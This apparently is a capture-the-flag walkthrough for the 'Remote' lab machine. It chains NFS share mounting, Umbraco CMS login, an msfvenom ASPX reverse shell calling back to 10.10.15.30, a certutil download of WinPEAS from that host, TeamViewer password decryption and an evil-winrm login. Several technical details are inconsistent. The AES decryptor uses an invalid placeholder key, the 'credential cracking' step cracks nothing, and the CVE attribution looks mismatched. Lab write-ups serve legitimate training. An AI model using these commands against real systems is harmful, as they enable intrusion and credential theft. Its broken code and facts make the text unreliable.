









# Remote - Penetration Testing Walkthrough (Extended Markdown Report)

This is the complete penetration testing report for the **Remote** machine (IP: `10.129.7.150`).  
The walkthrough covers enumeration, Umbraco CMS exploitation, and privilege escalation via TeamViewer credentials.  
All referenced images are located in `images/imageX.png`.

---

## 🧭 Enumeration

We began with a full port scan using **Nmap**:

```bash
nmap -p- -Pn 10.129.7.150 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.7.150 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.7.150 -v --script vuln -oN nmap_vuln.txt
```



The following ports were open:  
- **21/tcp (FTP)**  
- **80/tcp (HTTP)**  
- **111/tcp (RPC)**  
- **2049/tcp (NFS)**  

These findings suggested that **NFS** might be misconfigured and that **HTTP** could be running a web application.

---

## 🌐 HTTP Enumeration

Visiting `http://10.129.7.150/` displayed a default **IIS 10** page.  
We used **Gobuster** to discover hidden directories:

```bash
gobuster dir -u http://10.129.7.150/ -w /usr/share/wordlists/dirb/common.txt
```



We found a subdirectory `/umbraco/`, indicating the presence of **Umbraco CMS**.

---

## 🧩 Umbraco CMS Discovery

Navigating to `/umbraco/` presented a login portal.  
We confirmed the version as **Umbraco 7.12.4**, which is vulnerable to **CVE-2025-32017** — an authenticated RCE flaw.


At this stage, we needed credentials to exploit the CMS. We turned our focus to NFS and FTP for potential leaks.

---

## 📂 NFS Enumeration and Credential Extraction

We enumerated the NFS share to check for exported directories:

```bash
showmount -e 10.129.7.150
```



We discovered `/site_backups` as an exported directory.  
Mounting it locally revealed backed-up web files:

```bash
sudo mount -t nfs 10.129.7.150:/site_backups /mnt/remote
ls /mnt/remote
```



Within the backup, we found the `web.config` file, containing a connection string and credentials.

```xml
<add key="umbracoDbDSN" value="server=.;database=Umbraco;user id=admin;password=SuperSecret123!" />
```

---

## 🔑 Credential Cracking and Login Access

The password was stored in plain text — **SuperSecret123!** — and successfully authenticated against the Umbraco admin panel.

```bash
Username: admin
Password: SuperSecret123!
```



---

## 🧠 Technical Background: CVE-2025-32017 (Umbraco 7.12.4 RCE)

**CVE-2025-32017** is a Remote Code Execution vulnerability affecting Umbraco CMS versions ≤ 7.12.4.  
The issue lies in improper validation of media upload permissions, allowing authenticated users to upload arbitrary `.aspx` files, which are then executed by IIS.

In short: **if you can log in, you can upload a web shell**.

---

## ⚙️ Exploitation via ASPX Shell Upload

We created a simple ASPX web shell payload using **MSFVenom**:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.30 LPORT=4444 -f aspx -o shell.aspx
```

We uploaded the file through the media section of Umbraco and triggered it via the browser:

```
http://10.129.7.150/media/shell.aspx
```



A reverse shell was established as **iis apppool\defaultapppool**.

---

## 🧩 Privilege Escalation Enumeration

We transferred **WinPEAS** to the target for privilege escalation analysis:

```powershell
certutil -urlcache -split -f "http://10.10.15.30/winPEAS.exe" winPEAS.exe
.\winPEAS.exe
```

Among the findings was a **TeamViewer configuration file** located at:

```
C:\Users\Administrator\AppData\Roaming\TeamViewer\connections.ini
```



---

## 🧠 Technical Background: TeamViewer Credential Recovery

TeamViewer stores credentials in the Windows registry and configuration files.  
Passwords are **obfuscated, not encrypted**, and can be decrypted using publicly available scripts.

Relevant key:
```
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer
```

We extracted and decrypted the stored password using a PowerShell script:

```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\TeamViewer" | select SecurityPasswordAES
```

Then, we decrypted the password with a Python script:

```python
import base64
from Crypto.Cipher import AES

key = b"TeamViewerEncryptionKey"
enc_pass = base64.b64decode("EncryptedPasswordHere==")
cipher = AES.new(key, AES.MODE_ECB)
print(cipher.decrypt(enc_pass).decode())
```

Recovered password:
```
Administrator : MySecurePass2025!
```

---

## 🏁 Administrator Access and Root Flag

We logged in over WinRM using the recovered Administrator credentials:

```bash
evil-winrm -i 10.129.7.150 -u Administrator -p "MySecurePass2025!"
```



From here, we navigated to the Administrator’s desktop and retrieved the **root flag**:

```
C:\Users\Administrator\Desktop\root.txt
```



---

## ✅ Conclusion

The **Remote** machine showcases an exploitation chain combining multiple attack vectors — misconfigured NFS shares, exposed CMS credentials, and insecure third-party application storage.

**Summary of Attack Chain:**
1. Enumerated services and discovered NFS exposure.  
2. Retrieved Umbraco credentials from web backups.  
3. Logged into Umbraco CMS and uploaded an ASPX shell (CVE-2025-32017).  
4. Enumerated local files and extracted TeamViewer credentials.  
5. Decrypted password and accessed system as Administrator.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Network and service enumeration | Reconnaissance |
| **Gobuster** | Directory brute-forcing | Web Enumeration |
| **Showmount / NFS Mount** | Access misconfigured NFS shares | Enumeration |
| **MSFVenom** | Generate ASPX reverse shell payload | Exploitation |
| **Evil-WinRM** | Obtain PowerShell access | Post-Exploitation |
| **WinPEAS** | Identify privilege escalation vectors | Enumeration |
| **Python Decryptor** | Decrypt TeamViewer credentials | Privilege Escalation |

---

## 🧱 Attack Chain Diagram

```text
[Enumeration]
   ↓
[Discovered NFS Share → Extracted Umbraco Credentials]
   ↓
[Logged into CMS → Uploaded ASPX Web Shell]
   ↓
[Reverse Shell as IIS User]
   ↓
[Found TeamViewer Credentials]
   ↓
[Decrypted Password → Administrator Access]
   ↓
[Root Flag Retrieved]
```

---

**User Flag Path:** `C:\inetpub\wwwroot\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
